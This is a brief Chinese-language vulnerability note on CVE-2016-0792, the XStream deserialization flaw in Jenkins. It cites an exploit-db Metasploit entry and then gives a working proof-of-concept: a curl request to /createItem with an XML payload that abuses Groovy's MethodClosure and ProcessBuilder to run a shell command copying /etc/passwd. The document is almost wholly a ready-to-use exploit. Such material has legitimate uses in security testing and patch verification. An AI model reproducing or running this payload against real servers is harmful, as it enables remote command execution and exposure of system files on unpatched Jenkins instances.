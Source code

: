 ### CVE-2016-0792 - XStream 反序列化漏洞

参考文档

* [Jenkins - XStream Groovy classpath Deserialization (Metasploit)](https://www.exploit-db.com/exploits/43375/)

Poc

```
# 复制 /etc/passwd 到 /tmp
curl 'http://127.0.0.1/createItem?name=boh3ti8AGh' --data-binary '<map><entry><groovy.util.Expando><expandoProperties><entry><string>hashCode</string><org.codehaus.groovy.runtime.MethodClosure><delegate class="groovy.util.Expando"reference="../../../.."/><owner class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>cp /etc/passwd /tmp</string></command><redirectErrorStream>false</redirectErrorStream></owner><resolveStrategy>0</resolveStrategy><directive>0</directive><parameterTypes/><maximumNumberOfParameters>0</maximumNumberOfParameters><method>start</method></org.codehaus.groovy.runtime.MethodClosure></entry></expandoProperties></groovy.util.Expando><int>1</int></entry></map>' -H 'Content-Type: application/xml'
```

